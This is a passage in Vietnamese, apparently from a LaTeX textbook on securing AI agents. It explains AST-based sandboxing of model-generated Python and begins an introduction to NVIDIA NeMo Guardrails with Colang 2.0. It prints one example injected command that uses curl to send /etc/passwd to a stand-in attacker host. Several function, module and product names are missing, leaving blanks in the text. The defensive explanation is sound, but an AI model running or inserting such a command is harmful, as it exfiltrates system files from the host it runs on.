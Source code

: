 \subsection{Cô Lập Môi Trường Bằng Cây Cú Pháp Tĩnh (AST Sandboxing)}
Khi xây dựng Agent phân tích dữ liệu (như Code Interpreter), mô hình phải tự sinh và chạy mã Python. Việc sử dụng lệnh  hoặc  thuần túy là tự sát về mặt an ninh mạng, bởi kẻ tấn công chỉ cần tiêm lệnh:
\begin{lstlisting}[language=Python]
import os; os.system("curl -d @/etc/passwd attacker.com")
\end{lstlisting}
Trước khi mã được phép biên dịch, ta bắt buộc phải phân tích cây cú pháp trừu tượng () của Python để loại bỏ mọi lời gọi hàm nguy hiểm ngay từ trong trứng nước: cấm các hàm , , , , ,  và ngăn chặn triệt để việc import các mô-đun nhạy cảm như , , , , .

\subsection{Lập Trình Guardrails Doanh Nghiệp Với NVIDIA NeMo Guardrails \& Colang 2.0}
\label{subsec:nemo-guardrails-colang}

Khi ứng dụng AI mở rộng ra hàng trăm luồng nghiệp vụ phức tạp, việc viết mã kiểm tra thủ công bằng chuỗi câu lệnh  hay Regex phân tán sẽ dẫn tới thảm họa bảo trì. Để giải quyết bài toán này, NVIDIA phát triển khung làm việc mã nguồn mở  với ngôn ngữ mô hình hóa hành vi .

